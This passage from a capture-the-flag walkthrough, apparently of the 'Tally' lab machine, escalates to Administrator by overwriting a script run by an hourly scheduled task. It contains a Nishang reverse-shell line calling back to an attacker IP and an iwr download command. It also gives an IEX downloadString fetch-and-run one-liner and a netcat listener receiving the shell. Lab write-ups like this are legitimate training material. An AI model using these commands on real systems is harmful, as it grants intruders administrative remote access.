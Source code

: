 If we check in our .xml file what command is supposed to be executed by the scheduled task we see it's the .ps1 script itself, and it is to be executed as Administrator:

```xml
<UserId>TALLY\Administrator</UserId>
<LogonType>Password</LogonType>
<RunLevel>HighestAvailable</RunLevel>
[...]
<Exec>
<Command>PowerShell.exe</Command>
<Arguments>-ExecutionPolicy Bypass -File SPBestWarmUp.ps1 -skipadmincheck</Arguments>
<WorkingDirectory>C:\Users\Sarah\Desktop</WorkingDirectory>
</Exec>
```

So in theory *SPBestWarmUp.ps1* is being run every hour from Sarah's desktop, which is where we are right now, meaning we can overwrite the file with a reverse shell and it will be executed at every change of hour. I decided to test this with Nishang's reverse shell:

```aaa
┌─[baud@parrot]─[~/tally]
└──╼ $locate nishang | grep Tcp
/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLineBind.ps1
┌─[baud@parrot]─[~/tally]
└──╼ $cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 SPBestWarmUp.ps1
```

Add this line at the end of the .ps1 script to launch the reverse shell as soon as the script is executed:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 9898
```

Then download the script on the desktop to overwrite the original:

```aaa
c:\Users\Sarah\Desktop>powershell iwr http://10.10.14.37:9090/SPBestWarmUp.ps1 -outfile ./SPBestWarmUp.ps1
```

Alternatively, you can leave the script on the attacking box and replace the content of the original with:

```aaa
c:\Users\Sarah\Desktop>echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.37:9090/script.ps1')" > SPBestWarmUp.ps1
```

Now it's time to wait about one hour or hopefully less depending on when we happen to have landed on the box for the script to be executed and give us a shell as administrator. I was lucky and discovered this about ten minutes before the end of the hour so I didn't have much to wait, so pretty soon I received a shell:

```aaa
┌─[baud@parrot]─[~/tally]
└──╼ $nc -lvnp 9898
listening on [any] 9898 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.10.59] 51293
Windows PowerShell running as user Administrator on TALLY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Sarah\Desktop>whoami
tally\administrator
PS C:\Users\Sarah\Desktop>
```
